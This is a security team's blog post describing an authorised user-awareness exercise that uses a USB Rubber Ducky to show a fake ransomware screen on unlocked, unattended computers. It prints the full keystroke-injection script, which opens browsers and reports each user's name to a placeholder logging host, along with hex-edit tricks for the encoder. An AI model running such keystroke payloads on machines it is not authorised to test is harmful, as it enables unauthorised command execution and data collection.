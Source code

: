 ```yaml
---
layout: post
title: "Unattended, unlocked, unprotected terminals - User security training with USB Rubber Ducky"
date: 2018-08-21 00:00
comments: false
author: Rodney Beede
authorIsRacker: true
published: true
categories:
  - Security
---
```


As part of our user security awareness training, we perform tests of our
personnel in the work environment.  One training exercise involved testing for
unattended computers by inserting a USB device that would display a ransomware
screen.

<!-- more -->

## What is USB Rubber Ducky?

USB Rubber Ducky is a product made by a company called Hak5.  You can find
information about it at:

* [Hak5's hackshop.com](https://hakshop.com/products/usb-rubber-ducky-deluxe)
* [Hak5's GitHub Repository](https://github.com/hak5darren/USB-Rubber-Ducky)

To you, it looks like a USB thumb drive, but it actually emulates a USB HID
keyboard.  After it's plugged in, a payload programmed into the device sends
keyboard commands to the computer.

This allows a security tester to quickly run commands on an unprotected computer
without having to sit down at the computer and type.

## Our ransomware exercise

We walked around our location looking for computers that were unattended and
had not been locked (left at the desktop screen).  If we discovered an unattended
computer, we inserted the USB Rubber Ducky into a USB port which delivered our
payload.

### What happens?

The payload sends keystroke commands that:

1. Open up a web browser
1. Place the web browser full screen
1. Open a second web browser on the second monitor
   * Also in full-screen mode
1. Navigate to a fake ransomware page

The fake ransomware page includes text that indicates it is a security test and
provides links to security training for the user.

## Payload code and tools

The tool **duckencoder_2.6.4.jar** from the
[USB Rubber Ducky GitHub site](https://github.com/hak5darren/USB-Rubber-Ducky)
encodes the payload command script for the USB Rubber Ducky hardware.

One limitation is that the encoder does not have built-in support for the key
combination of **win + CTRL + desktop** (open a new virtual desktop).  I
overcame this limitation by manually editing the compiled **inject.bin** with a
hex editor to change the keycode bytes from _07 05_ to _07 09_ (hexadecimal).

Although I have submitted code enhancements to the product's GitHub project,
the maintainers have not updated it in quite some time (Dec. 7, 2016).  Ideally,
the encoder would have support for more key combinations, but most desired
actions can be done without using a hex editor.  I was successful in getting
**STRING_DELAY** added to the official code base, and this script command is
very helpful for writing shorter payloads.

### Code

```
REM Author:  Rodney Beede of GES-TVA
REM Created: 2018-05-31


DEFAULT_DELAY 100

REM startup delay
DELAY 100

REM Create a new desktop is  win + CTRL + desktop
REM ducky script doesn't support this so make it yourself
REM by ORing the MODIFIER_KEY values together! and HxD
REM https://github.com/hak5darren/USB-Rubber-Ducky/blob/master/Encoder/resources/keyboard.properties

REM CTRL-ALT d MAKES 07 05
REM CTRL-ALT === 0x05
REM d === 0x07   (these are keyboard codes, not ascii)
REM win+ctrl+d MAKES 07 09
CTRL-ALT d



REM run dialog
GUI r

REM the double quotes are important
STRING_DELAY 10 "c:\Program Files\internet explorer\iexplore.exe" -k https://fake-ransomeware-page.example.com/log/%username%
ENTER


REM open a second one and put on the second monitor

GUI r
STRING_DELAY 10 "c:\Program Files\internet explorer\iexplore.exe" -k https://fake-ransomeware-page.example.com/log/%username%
ENTER



REM win+SHIFT+right arrow to move window to other desktop
REM HxD edit so CTRL-ALT (05) becomes WIN+SHIFT value:  0A
REM 4F 05 ===>  4F 0A
CTRL-ALT RIGHT
```


## Summary

We chose the ransomware screen shock factor as a way to educate users of the
security risk to company data.  It creates more ownership (versus just an email
note from security) by demonstrating real-world impact of what could happen
from a malicious actor.

![Ransomware Screen]({% asset_path 2018-08-21-unattended-unlocked-unprotected-terminals-user-security-training/ransomware.png %})

Use the Feedback tab to make any comments or ask questions.
